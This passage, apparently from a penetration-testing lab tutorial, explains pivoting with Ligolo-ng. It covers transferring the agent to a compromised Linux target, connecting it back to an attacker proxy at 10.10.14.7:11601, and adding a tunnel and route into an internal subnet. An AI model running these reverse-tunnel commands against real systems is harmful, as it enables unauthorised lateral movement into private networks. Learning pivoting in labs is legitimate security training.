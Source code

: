 ### 2. Transfer **and Set Up the Agent on the Target Machine

Next, transfer the appropriate `Ligolo-ng agent` binary (matching the target's OS and architecture) to the Linux target machine. Tools such as scp, wget, or curl can be used for this transfer, depending on what’s available in your environment.

Once the agent is on the target, start it with the following command, ensuring you specify the attacker’s IP address and the listening port (`default: 11601`):

```bash
./agent -connect 10.10.14.7:11601 -ignore-cert
```

- `connect 10.10.14.7:11601` tells the agent where the proxy is running.
- `ignore-cert` allows the agent to accept the self-signed certificate generated by the proxy.

![image.png](image%202.png)

Once the agent connects, you’ll see a message indicating that a new agent has joined. You can then enter the Ligolo-ng interactive console to manage your sessions:

```bash
session
```

This will list all available sessions. Select your active session (using the `number` or `arrow keys`).

![image.png](image%203.png)

To access the internal `192.168.2.0/24` network, create a tunnelled interface and add a route as follows:

```bash
interface_create --name Internal
route_add --name Internal --route 192.168.2.0/24
tunnel_start --tun Internal
```

- `interface_create --name Internal` creates a new virtual network interface labeled "Internal."
- `route_add --name Internal --route 192.168.2.0/24` configures routing so that traffic destined for the internal subnet is directed through this interface.
- `tunnel_start --tun Internal` initiates the tunnel, enabling seamless communication with the internal network.

![image.png](image%204.png)
